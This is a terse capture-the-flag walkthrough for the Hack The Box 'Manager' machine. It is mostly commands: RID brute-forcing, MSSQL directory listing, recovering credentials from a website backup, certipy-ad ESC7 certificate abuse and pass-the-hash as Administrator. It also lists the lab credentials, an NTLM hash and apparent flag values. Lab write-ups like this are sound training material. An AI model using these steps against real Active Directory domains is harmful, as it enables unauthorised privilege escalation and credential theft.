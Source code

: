 # Manager \[Medium]

## Report

Username bruteforcing using rid and username password spraying using nxc shows same userpass combo for 'operator'. With MSSQL being an open service, login to find the source of the entire website hosted on port 80. We also find a backup zip file that exposes creds for 'raven'.

Raven has vulnerable certificate permissions and exploits the 'ESC7' to extract hash for admin. PtH and become admin.

## Cheatsheet

```
7h skew on all services - ldap, mssql and kerberos

python3 mssqlclient.py manager.htb/operator:operator@manager.htb -windows-auth

EXEC master.sys.xp_dirtree 'C:\inetpub\wwwroot',1, 1

nxc smb 10.10.11.236 -u guest -p '' --rid-brute
either shouldve converted all to lowercase first or check all possibilities

wget http://manager.htb/website-backup-27-07-23-old.zip
read .oldconf.xml

certipy-ad find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
ESC7 exploit
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Raven has to be added to ManageCertificates otherwise this wont work
certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
certipy-ad ca -ca manager-DC01-CA -issue-request 22 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target 10.10.11.236 -template SubCA  -retrieve 22 -dc-ip 10.10.11.236
certipy-ad auth -pfx administrator.pfx  -dc-ip 10.10.11.236

faketime -f '+7h' certipy-ad auth -pfx administrator.pfx  -dc-ip 10.10.11.236
evil-winrm -i manager.htb -u Administrator -H ae5064c2f62317332c88629e025924ef


32fc60dd757857bab61c59d2402df2e4
339b176064fc5ebb2b25909d3fb368d2

```

## Loot

### Creds

```
operator:operator
raven:R4v3nBe5tD3veloP3r!123
```

### Enum

```
SMB
no guest access

rpcclient
access denied [guest]
nothing much as operator

ldap
dont work with our ldapsearch
ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ldap/

kerb (88)
no asreproast after ridbrute userlist
./kerbrute_linux_amd64 userenum -d manager.htb ~/htb/rooms/manager/users --dc manager.htb -v
/GetNPUsers.py 'manager.htb/' -dc-ip manager.htb -usersfile ~/htb/rooms/manager/users

mssql
need a username password combo
```

### Proof

Certify.exe didn't technically throw a vulnerable result so certipy-ad is also added to the arsenal
